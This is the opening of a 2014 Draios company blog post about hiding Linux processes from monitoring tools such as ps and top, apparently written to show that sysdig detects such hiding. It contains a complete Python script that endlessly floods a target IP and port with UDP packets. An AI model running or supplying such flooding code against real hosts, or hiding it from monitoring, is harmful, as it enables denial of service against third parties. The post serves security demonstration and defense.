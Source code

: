 [](http://draios.com/)

-   [About + Jobs](http://draios.com/about-jobs/)
-   [Blog](http://draios.com/blog/)
-   [sysdig](http://sysdig.org)

[Draios Blog](http://draios.com/blog/)
======================================

(Fortified with 100% organic **[sysdig](http://sysdig.org)**!)
--------------------------------------------------------------

RSS feed: [![image](http://draios.com/wp-content/themes/website/assets/img/rss.png)](http://draios.com/feed/)
-------------------------------------------------------------------------------------------------------------

August 28, 2014 - **Gianluca Borello** Share on
[](http://twitter.com/share?text=@sysdig%20Hiding+Linux+Processes+For+Fun+And+Profit&url=http://draios.com/hiding-linux-processes-for-fun-and-profit/)

* * * * *

Hiding Linux Processes For Fun And Profit
-----------------------------------------

Introduction
------------

The other day I was looking at the output of `top` on my machine, and I
wondered: how hard would it be to hide specific processes and/or network
connections from traditional monitoring tools like `ps`, `top`, `lsof`,
…? I decided to kill a couple hours and try to hack together a solution.
In this post, I’ll show you some of the answers I came up with, and some
proof of concept code to implement this. I’ll also show that sysdig is
not susceptible to my hack, and explain why.

The goal that I want to achieve is to deliberately hide a simple and
malicious Python script (I’ll call it `evil_script.py`) that does some
damage to my system, saturating CPU and network by sending UDP packets
towards a poor victim:

    #!/usr/bin/python
    import socket
    import sys
     
    def send_traffic(ip, port):
         print "Sending burst to " + ip + ":" + str(port)
         sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
         sock.connect((ip, port))
         while True:
             sock.send("I AM A BAD BOY") 
     
    if len(sys.argv) != 3:
         print "Usage: " + sys.argv[0] + " IP PORT"
         sys.exit() 
     
    send_traffic(sys.argv[1], int(sys.argv[2]))

